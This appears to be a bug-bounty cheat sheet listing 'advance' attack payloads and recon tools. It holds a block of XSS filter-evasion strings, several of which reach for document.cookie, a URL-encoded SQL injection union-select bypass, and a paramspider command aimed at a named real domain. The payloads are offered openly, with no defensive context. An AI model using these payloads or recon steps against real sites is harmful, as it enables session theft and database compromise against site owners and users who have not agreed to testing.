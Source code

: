 #### **&#x20;Advance Payloads:-**

&#x20;**for XSS**

```
1. <marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>  

		'">><marquee><img src=x onerror=confirm(1)></marquee>"
  
		></plaintext\></|\><plaintext/onmouseover=prompt(1)
  
		><script>prompt(1)</script>@gmail.com<isindex
  
		formaction=javascript:alert(/XSS/) type=submit>'-->"
  
		></script><script>alert(1)</script>"><img/id="confirm&lpar;
  
		1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
  ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
		></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))
		</SCRIPT>

		“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

&#x20;**for SQL injection used URL encode**

```
2. /*!50000%75%6e%69on*/%73%65%6cect 1,2,3,4,...                                     
```

#### **&#x20;Personal Recommended tools (Left to Right Priority):-**

&#x20;**for subdomains**

```
1. Subfinderv2,Amass,Sublister,crtsh   
```

&#x20;**for Finding Parameters**

```
2. Arjun,ParamSpider,Parameth 
ex: for paramspider:- python3 paramspider.py --domain healthifyme.com --exclude woff,css,js,png,svg,php,jpg --output healthifyme.txt
```

&#x20;**for Separating https & http**

```
3. httpx(With Title),httprobe
```

&#x20;**for Subdomains,cloud Services subdomains in js files, Use the Shannon Entropy**

```
4. SubDomainizer
5.Link Discovery by GoSpider|Hakrawler|Burp Suite Pro & use advance scope as keyword 'Twitch'
```
